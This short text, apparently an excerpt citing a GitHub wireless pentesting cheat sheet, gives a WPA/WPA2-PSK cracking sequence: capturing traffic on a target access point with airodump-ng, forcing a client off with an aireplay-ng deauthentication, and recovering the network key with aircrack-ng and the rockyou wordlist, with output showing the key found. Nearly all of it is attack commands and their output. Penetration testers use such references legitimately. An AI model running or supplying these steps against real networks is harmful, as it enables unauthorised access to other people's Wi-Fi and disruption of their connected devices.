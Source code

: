 * https://github.com/V0lk3n/WirelessPentesting-CheatSheet?tab=readme-ov-file#cracking-wpawpa2-psk

```bash
sudo airodump-ng wlan0mon -c 6 -w wifi-mobile --bssid F0:9F:C2:71:22:12

sudo aireplay-ng -0 1 -a F0:9F:C2:71:22:12 -c 28:6C:07:6F:F9:44 wlan0mon
20:01:28  Waiting for beacon frame (BSSID: F0:9F:C2:71:22:12) on channel 6
20:01:29  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:6F:F9:44] [ 0| 0 ACKs]

aircrack-ng wifi-mobile-01.cap -w /usr/share/wordlists/rockyou.txt
Reading packets, please wait...
Opening wifi-mobile-01.cap
Read 346 packets.

KEY FOUND! [ starwars1 ]
```